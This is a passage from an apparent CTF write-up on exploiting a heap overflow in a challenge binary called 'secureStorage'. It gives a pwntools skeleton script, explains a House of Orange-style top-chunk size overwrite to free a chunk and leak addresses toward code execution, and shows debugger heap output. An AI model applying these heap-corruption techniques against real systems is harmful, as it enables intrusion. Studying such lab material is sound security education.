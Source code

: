 ```py
#!/usr/bin/env python3

from pwn import *

context.update(arch="amd64", os="linux", log_level="debug")
context.binary = elf = ELF("./secureStorage", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

r = process()
gdb.attach(r)

def add(index, size, content):
    r.sendlineafter(b'\n>> ', b'1')
    r.sendlineafter(b'Enter permit index:\n', str(index).encode())
    r.sendlineafter(b'Enter entry size:\n', str(size).encode())
    r.sendlineafter(b'Enter entry data:\n', content)

def show(index):
    r.sendlineafter(b'\n>> ', b'2')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())

def edit(index, content):
    r.sendlineafter(b'\n>> ', b'3')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())
    r.sendlineafter(b'Enter data:\n', content)

r.interactive()
```

First of all, to have a chance of turning this heap exploit into remote code execution, we need to be able to leak addresses from the program. For that, we need to be able to free chunks. Since the program does not allow us to call the `free` function directly, we can use an indirect method like the one from the [`House of Orange`](https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/house_of_orange/) exploit.

Basically, we can use the `16-byte` overflow we have to overwrite the chunk metadata. In this case, we can use it to overwrite the size of the top chunk, making it a lot smaller than it currently is. After that, if we try to allocate a chunk larger than the top chunk size, the heap will be expanded, and the original top chunk will be freed and placed in an unsorted bin.

For this, let's start by modifying our exploit to allocate a chunk of size `352` and inspect the state of the heap in the debugger.

```py
...
add(0, 352, b"A"*8)
r.interactive()
``` 

As we can see, our allocated chunk is at `0x000055c5cfdd42a0`. Right after that, there is the top chunk, and its size is `0x20c01` (with the last bit set to indicate that the previous chunk is in use).

```console
gef➤  x/gx &chunks
0x55c5ce736060 <chunks>:        0x000055c5cfdd42a0
gef➤  x/2gx 0x000055c5cfdd42a0+352
0x55c5cfdd4400: 0x0000000000000000      0x0000000000020c01
gef➤  heap chunks
Chunk(addr=0x55c5cfdd4010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055c5cfdd4010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55c5cfdd42a0, size=0x170, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055c5cfdd42a0     41 41 41 41 41 41 41 41 0a 00 00 00 00 00 00 00    AAAAAAAA........]
Chunk(addr=0x55c5cfdd4410, size=0x20c00, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
```
